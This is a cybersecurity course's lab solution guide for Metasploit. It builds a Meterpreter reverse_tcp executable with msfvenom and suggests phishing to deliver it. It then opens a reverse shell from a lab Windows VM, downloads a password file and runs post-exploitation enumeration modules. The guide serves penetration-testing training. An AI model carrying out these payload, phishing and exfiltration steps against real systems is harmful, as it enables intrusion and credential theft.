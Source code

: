 ## Solution Guide: Meterpreter Shells

The goal of this activity was to practice using Metasploit modules and payloads.

---

1. In Kali, create an executable payload for the target machine using `msfvenom`. You have been provided a template command to create your exploit.
   - Type and run the following command, but remember to update the `LHOST` with the correct IP:

     - `msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.8 LPORT=4444 -f exe > hack.exe`

   **Note**: We'll cover custom payloads in the next lesson. For now, just know that this payload will create a malicious `hack.exe` file.
2. Remember, once the payload is created, the attacker needs to get their payload onto the victim's computer. For this activity, assume that your payload reached the victim's machine via social engineering.
In one or two sentences, describe how you might have used social engineering to deliver this payload to the victim machine.

   - You might have targeted an employee with a phishing email using information obtained from their LinkedIn and Facebook profiles.
   - The targeted employee opened the email that contained your malware called `hack.exe`, which installed it on to their local hard drive.

3. In DVW10, verify that `hack.exe` is on the victim machine.

   - Navigate to the Downloads folder on the DVW10 VM and locate the EXE file.
   - Do not click on the file just yet.

4. Return to Kali and run the commands needed to establish the reverse connection once the file has been executed.

   - Launch the MSFconsole in preparation for establishing the reverse connection. Then run the commands that will do the following tasks:

     - Load the `exploit/multi/handler`:

       - `use exploit/multi/handler`

     - Set the payload to `windows/meterpreter/reverse_tcp`:

       - `set payload windows/meterpreter/reverse_tcp`

       ![Find 3](Images/FIND_3.png)

     - View the payload's options:

       - `show options`

     - Set `LHOST` to the IP of your Kali machine:

       - `set LHOST 192.168.0.8`

     - Set the `LPORT` to `4444` of your Kali machine:

       - `set LPORT 4444`

     ![Find 4](Images/FIND_4.png)

     - Verify the option settings took effect:

         - `show options`

         ![Find 5](Images/FIND_5.png)

5. Run the exploit:

   - `exploit` or `run`
   - Now that the listener is running on Kali, go to the DVW10 machine and double-click on the `hack.exe` file to start the reverse shell.
   - Long idle times may cause the listener to close the connection. Double-clicking `hack.exe` forces the connection back up.

6. Now we will explore the exploited machine and begin our hunt for the target information.

   - As a warm-up, run the Meterpreter command that searches for files on the remote host:

     - `search -f <filename>`

     - `search -h`

     ![Find 6](Images/FIND_6.png)

7. Let's begin the hunt:

   - Search the remote filesystem for all files ending with `.jpg`:

     - `search -f *.jpg`

       ![Find 7](Images/FIND_7.png)
   - Search the remote filesystem for a file called `password`:

     - `search -f password*`

   - Exfiltrate this file from the DVW10 VM:

     - `download 'C:\Users\IEuser\Documents\password.txt'`

     ![Find 8](Images/FIND_8.png)

### Bonus

Although security professionals are not expected to be familiar with every module and payload offered in Metasploit and Meterpreter, you will be expected to find the tools you need through online searches.

Try to complete the following tasks:

- Find and use a post-exploitation module that enumerates network shares (Windows Gather SMB Share Enumeration via Registry) on the DVW10 machine:

  - `run post/windows/gather/enum_shares`

  - Results show there are not shares running on the VM.

- Find and use a post-exploitation module that checks if the DVW10 computer is running inside a VM:

  - `run post/windows/gather/checkvm`

  - Results show that it is a Hyper-V VM.

- Launch a command shell within Meterpreter and perform enumeration that displays user account information on the breached DVW10 computer:

  - `net users`

     ![Shell](Images/SHELL.png)

---

&copy; 2020 Trilogy Education Services, a 2U Inc Brand.   All Rights Reserved.
